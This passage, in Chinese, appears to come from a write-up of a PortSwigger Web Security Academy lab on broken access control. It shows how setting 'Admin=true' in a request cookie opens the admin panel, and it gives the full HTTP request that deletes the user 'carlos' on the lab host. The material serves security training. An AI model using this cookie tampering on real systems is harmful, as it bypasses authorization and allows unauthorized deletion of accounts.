 尝试把 数据包中的 Cookie 中的 Admin 字段改为 true，即可操作管理员的页面

<img src=".\图片\Snipaste_2023-08-02_15-06-23.png" alt="Snipaste_2023-08-02_15-06-23" style="zoom:80%;" />

接下来操作功能点的删除用户即可，还是记得修改为 `Admin=true`

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a5100b404a8ce718173cc6c00190064.web-security-academy.net
Cookie: Admin=true; session=sAj0mgLcDl1yl9lCkUHwPPZrbSZzGi4n
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5100b404a8ce718173cc6c00190064.web-security-academy.net/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

## Lab4
